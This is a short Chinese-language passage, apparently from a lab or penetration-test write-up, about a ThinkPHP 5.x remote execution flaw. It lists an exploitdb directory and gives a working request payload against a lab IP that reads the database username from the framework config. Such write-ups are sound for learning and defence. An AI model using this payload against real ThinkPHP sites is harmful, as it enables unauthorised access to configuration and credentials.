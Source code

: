 可以看到这里有一个5.x的远程执行漏洞

这里直接进入文件夹查看一下txt列出来的pyload

```
cd /usr/share/exploitdb/exploits/php/webapps
```

<img src="image/image-20240409164839784.png" alt="image-20240409164839784" style="zoom:80%;" />

找到对应版本后fuzz以下payload，这个是列出数据库名字，这里看到数据库名为root

```
http://192.168.1.132/thinkphp/public/?s=.|think\config/get&name=database.username
```
